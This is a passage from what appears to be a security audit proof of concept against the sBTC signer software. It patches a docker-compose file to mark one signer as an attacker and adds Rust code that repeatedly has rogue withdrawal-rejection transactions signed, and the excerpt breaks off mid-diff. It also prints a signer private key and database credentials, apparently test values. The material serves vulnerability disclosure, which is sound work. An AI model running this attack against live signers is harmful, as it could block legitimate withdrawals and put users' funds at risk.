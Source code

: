          // Open a connection to the signer db.
    ```
4.  Patch `docker/docker-compose.yml`, add attacker flag

    ```diff
           - postgres-3
         environment:
           <<: *sbtc-signer-environment
    +      AUDIT_THIS_SIGNER_IS_ATTACKER: true
           SIGNER_SIGNER__DB_ENDPOINT: postgresql://postgres:postgres@postgres-3:5432/signer
           SIGNER_SIGNER__PRIVATE_KEY: 3ec0ca5770a356d6cd1a9bfcbf6cd151eb1bd85c388cc00648ec4ef5853fdb7401
           SIGNER_SIGNER__P2P__SEEDS: tcp://sbtc-signer-1:4122,tcp://sbtc-signer-2:4122
    ```
5.  Patch `signer/src/transaction_coordinator.rs`, add attack action.

    ```diff
         async fn construct_and_sign_stacks_sbtc_response_transactions(
             &mut self,
             chain_tip: &model::BitcoinBlockHash,
             bitcoin_aggregate_key: &PublicKey,
         ) -> Result<(), Error> {
             let wallet = SignerWallet::load(&self.context, chain_tip).await?;
             let stacks = self.context.get_stacks_client();
     
    +        if self.context.config().signer.audit_this_signer_is_attacker.is_some_and(|x| x) {
    +            tracing::info!("@audit; start attack");
    +
    +            use crate::stacks::contracts::RejectWithdrawalV1;
    +            let attack_contract_call = ContractCall::RejectWithdrawalV1(RejectWithdrawalV1 {
    +                request_id: 0,
    +                signer_bitmap: bitvec::array::BitArray::<_>::ZERO,
    +                deployer: self.context.config().signer.deployer,
    +            });
    +
    +            let mut nonce = stacks.get_account(wallet.address()).await?.nonce;
    +            let tx_fee = self
    +                .context
    +                .get_stacks_client()
    +                .estimate_fees(&wallet, &attack_contract_call, FeePriority::High)
    +                .await?;
    +
    +            let mut txs = Vec::new();
    +            for _ in 0..1000 {
    +                wallet.set_nonce(nonce);
    +                nonce += 1;
    +                let attack_multi_tx = MultisigTx::new_tx(&attack_contract_call, &wallet, tx_fee);
    +                let attack_sign_request = StacksTransactionSignRequest {
    +                    aggregate_key: *bitcoin_aggregate_key,
    +                    contract_tx: attack_contract_call.clone().into(),
    +                    nonce: attack_multi_tx.tx().get_origin_nonce(),
    +                    tx_fee: attack_multi_tx.tx().get_tx_fee(),
    +                    txid: attack_multi_tx.tx().txid(),
    +                };
    +
    +                match self.sign_stacks_transaction(attack_sign_request, attack_multi_tx, chain_tip, &wallet).await {
    +                    Ok(tx) => txs.push(tx),
    +                    Err(err) => {
    +                        tracing::info!("@audit; sign_stacks_transaction failed: {:?}", err);
    +                        break;
    +                    }
    +                }
    +            }
    +
    +            let mut i = 0;
